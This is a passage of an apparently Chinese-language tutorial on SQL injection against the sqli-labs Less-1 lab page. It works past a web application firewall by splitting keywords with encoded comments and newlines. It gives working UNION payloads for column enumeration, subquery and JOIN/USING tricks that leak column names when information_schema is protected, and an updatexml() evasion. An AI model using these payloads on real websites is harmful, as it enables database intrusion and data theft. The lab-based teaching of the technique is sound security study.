 查列名，首先是没开information_schema防护时

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0a select 1,(select column_name from %23%0a information_schema.columns where table_name=0x7573657273 and%23a%0a table_schema=database(%23%0a) limit 1,1),3 -- +
```

开information_schema防护有两种姿势，不过需要知道表名

一、子查询

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0a SELECT 1,2,x.2 from %23a%0a(SELECT * from %23a%0a (SELECT 1)a, (SELECT 2)b union  %23a%0aSELECT *from  %23a%0aemails)x limit 2,1 -- +
```

二、用join和using爆列名，前提是页面可以报错，需要已知表名

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0aSELECT 1,2,(select * from %23a%0a(select * from %23a%0aemails a join emails b) c) -- +
```

![20191011213824](https://y4er.com/img/uploads/20191011213824.png)

然后通过using来继续爆

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0aSELECT 1,2,(select * from %23a%0a(select * from %23a%0aemails a join emails b using(id)) c) -- +
```

![20191011213910](https://y4er.com/img/uploads/20191011213910.png)

查数据

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23a%0aSELECT 1,2,(select email_id from%23a%0a emails limit 1,1) -- +
```
其实配合MySQL5.7的特性可以使用sys这个库来绕过，具体看chabug发的文章吧 [注入bypass之捶狗开锁破盾](https://www.chabug.org/web/1019.html)

> 在下文中不再提及开启information_schema防护的绕过姿势，自行举一反三。

# 报错注入

报错注入只提及updatexml报错

关键在于updatexml()结构打乱

```
and updatexml(1,1,1 	不拦截
and updatexml(1,1,1) 	拦截
```

不让updatexml匹配到两个括号就行了

用户名 库名
